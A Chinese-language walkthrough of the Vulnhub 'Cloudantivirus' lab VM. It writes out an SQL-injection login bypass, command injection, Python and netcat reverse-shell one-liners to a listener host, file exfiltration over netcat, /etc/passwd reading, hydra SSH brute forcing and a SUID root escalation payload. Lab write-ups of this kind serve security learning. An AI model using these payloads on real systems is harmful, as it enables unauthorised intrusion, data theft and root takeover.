 ﻿---
title: Chapter2_Easy_Cloudantivirus
categories:
- Network_Security
- Vulnhub
- Chapter2
tags:
- Network_Security
- Vulnhub
date: 2024-01-14 11:44:53
---

# Cloudantivirus 记录

## 1. 流程记录

### 1.1 扫描与发现

1. 主机发现，arp-scan 是偏向黑客工具，而 arping 是 Linux 发行版常见的工具。
    缺点：arping 不支持网段的扫描，因此需要结合 Linux 脚本循环命令使用。

    ```shell
    for i in $(seq 3 254); do sudo arping -c 2 192.168.0.$i; done
    # 扫描 192.168.0.3-254，-c 表示 count
    ```

2. 端口扫描：
    `sudo nmap -Pn -sV 192.168.0.104 -p 1-65535`
    ![image-20240112141214011](image-20240112141214011.png)

3. 目录爆破
    `dirsearch -u http://192.168.0.104:8080/`
    ![image-20240112142933497](image-20240112142933497.png)
    访问了之后，没啥可利用的页面

4. burp fuzz 一下特殊符号，看看异常：

    ![image-20240112142910986](image-20240112142910986.png)
    发现 `"` 异常厉害，着重关注一下。

### 1.2 打点

1. 发现 SQL 注入，万能密码开梭 `1" or 1=1 -- -`，进入系统：
    ![image-20240112144303351](image-20240112144303351.png)

2. 猜测是命令执行漏洞，逻辑是 `./扫描程序 文件名`，先用 `hello | id` 检测：
    ![image-20240112145302878](image-20240112145302878.png)
    验证成功，确实是。

### 1.3 反弹 Shell

1. 使用 Python 来反弹 shell，又或者看目标机器上是否有 NC：
    `hello | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
    用 NC：

    ```bash
    hello | which nc
    hello | /bin/nc 192.168.0.2 4444 -e /bin/sh # 低版本的 NC 没有 -e 参数
    hello | /bin/nc 192.168.0.2 4444 # 测试发现可行，但没有返回 Shell
    ```

2. NC 串联：
    `hello | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555 # nc 串联，使用 | 将结果向后传递。`
    创建两个监听端口后，4444 端输入的内容会在靶机的 /bin/bash 下执行，（由于管道符 `|`)，结果会发送到 5555 端：
    ![image-20240112151651716](image-20240112151651716.png)

### 1.4 内部的信息收集与提权

1. 用下载他的 database.sql 文件，本机执行一下，看看有什么特殊信息：

    ```bash
    file database.sql # 发现是 sqlite3 的数据库文件
    nc -vlnp 6666 > db.sql
    nc 192.168.0.2 6666 < database.sql # 在 4444 中执行，将该文件的内容传输到连接通道中去。
    sqlite3 # kali 中打开数据库环境
    sqlite> .open db.sql # 打开数据库文件
    sqlite> .database # 查看当前加载的数据库
    sqlite> .dump # 查看脚本内容
    ```

2. 看样子都是密码，考虑这个密码是不是登录界面的密码，尝试了一下，确实是。同时猜测是否是其 ssh 的密码：
    ```bash
    cat /etc/passwd
    cat /etc/passwd | grep /bin/bash # 筛选能通过 ssh 登录的用户
    ```

    生成用户名和密码（来自数据库）字典，用 hydra 爆破。
    ```bash
    vim username.txt
    vim password.txt
    hydra -L username.txt -P password.txt ssh://192.168.0.104
    ```

    结果没用。

3. 放弃，从其他的角度寻找提权的方式，再进行信息收集，查看文件，结果在上级文件夹下，存在文件：
    ![image-20240112155614433](image-20240112155614433.png)
    update_cloudav 符合 suid 提权条件：

    > https://blog.csdn.net/lv8549510/article/details/85406215
    >
    > suid 作用：给一个用户继承二进制程序所有者拥有的权限，即当执行该文件时，用户暂时获得该二进制文件所有者的权限。

    如果该文件中执行反弹 shell，那么生成的 shell 就有了 root 权限。
    update_cloudav 文件应该是 update_cloudav.c 的二进制文件。

4. 查看更新文件的源码：
    ![image-20240112160113060](image-20240112160113060.png)
    大概分析一下：`command` 变量为命令执行的语句，该命令调用了 `freshclam`（Clamav) 的程序，其中要求添加一个参数。
    再次构建 payload（参数中执行命令)：
    `./update_cloudav "a | nc 192.168.0.2 6666 | /bin/bash | nc 192.168.0.2 7777"`

5. 至此，提权结束：
    ![image-20240112160749970](image-20240112160749970.png)

## 2. 知识点总结

1. arping 与 shell 脚本的混合使用
2. NC 串联
3. ssh 密码爆破思路
4. suid 提权
